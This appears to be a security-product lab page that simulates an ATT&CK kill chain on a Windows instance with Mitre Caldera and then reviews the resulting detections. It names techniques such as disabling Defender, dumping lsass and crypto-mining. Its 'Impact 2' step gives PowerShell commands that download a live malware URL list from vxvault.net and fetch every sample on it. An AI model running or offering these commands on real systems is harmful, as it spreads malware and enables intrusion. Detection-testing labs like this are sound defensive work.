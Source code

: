 ```yaml
---
title: "Windows"
chapter: false
weight: 52
pre: "<b>5.2 </b>"
---
```


<b>Before you start this lab, make sure the C1WS Policy attached to the Windows Instance is the "demo > visionone > prevention mode" policy.</b>

### ATT&CK Phases
#### Reconnaissance
This step was skipped because we know the target of our attack (Windows and Linux Instances)

---
#### Resource Development
We used Mitre Caldera to generate the payloads used to compromise our targets

---
#### Initial Access and Execution
We deployed the malicious payloads manually to the Windows and Linux Instances. In a Real-world scenario, we could have used a Malicious Email message, including the link to the malicious files. In this way, compromising the target computers.

---
#### Persistence
Using Mitre Caldera, you can deploy additional backdoors that will ensure you can keep accessing the affected computers in the future:

In our case, we can run a remote instruction on the affected Linux computer and deploy a secondary agent (bot).

{{< youtube id="ECAPmLFwiXY" >}}

---
#### Privilege Escalation
Using Mitre Caldera, you can deploy the Technique "UAC bypass registry (T1548.002) - Set a registry key to allow UAC bypass". It will help to to expand the impact of this attack and get additional permissions on the affected OS.

{{< youtube id="o-hCzQjhNLs" >}}

---
#### Defense Evasion
Using Mitre Caldera, you can deploy the Technique "Disable Windows Defender All (T1562.001) - Disable Windows Defender All".

{{< youtube id="w5pnVRvGS6k" >}}

---
#### Credential Access
Using Mitre Caldera, you can deploy the Technique "Leverage Procdump for lsass memory (T1003.001) - Dump lsass for later use with mimikatz". You may find sensitive information with this technique.

{{< youtube id="syO6uPBEhQc" >}}

---
#### Discovery
Using Mitre Caldera, you can deploy the Technique "Find System Network Connections (T1049) - Find System Network Connections". You may find additional targets for this attack (Lateral Movement for example).

{{< youtube id="ReflY0x4k5A" >}}

---
#### Lateral Movement
Under development..


---
#### Command & Control
You can use the same tatics used on the step "Persistence", or even using other customm tools to interact with the C&C Server.

---
#### Collection
Using Mitre Caldera, you can deploy the Technique "Find files (T1005) - Locate files deemed sensitive". Using this technique you can search for sensitive date hosted on the affected computers.

{{< youtube id="X2zpomhJNLo" >}}

---
#### Exfiltration
Under development..

---
#### Impact 1
Using Mitre Caldera, you can deploy the Techniques "Crypto (Monero) Mining (T1496) - Download and execute Monero miner (xmrig) for 1 minute" and "Leave note (T1491) - Create a text file for the user to find". With this two techniques, you can create an impact that will affect the performance and expose the affected server to other risks, and also leave a note to tell the target of the attack about your intentions and what you have done so far.

{{< youtube id="LDqfBhn0DyQ" >}}

---
#### Impact 2
Using Mitre Caldera, execute the following Manual Commands, one by one.

        New-Item -Path c:\tmp -ItemType Directory;
        Invoke-WebRequest http://vxvault.net/URL_List.php -OutFile c:\tmp\urls.txt;
        Set-Location -Path c:\tmp;
        foreach($line in Get-Content c:\tmp\urls.txt) {Invoke-WebRequest -Uri $line -OutFile $(Split-Path -Path $line -Leaf)}

---
## Reviewing the Detections 
Review your Vision One Portal (Risk Insights and XDR / Workbenchs and OAT) searching for the evidences of the instructions executed during this demo.

{{< youtube id="A-mIm0YG-OM" >}}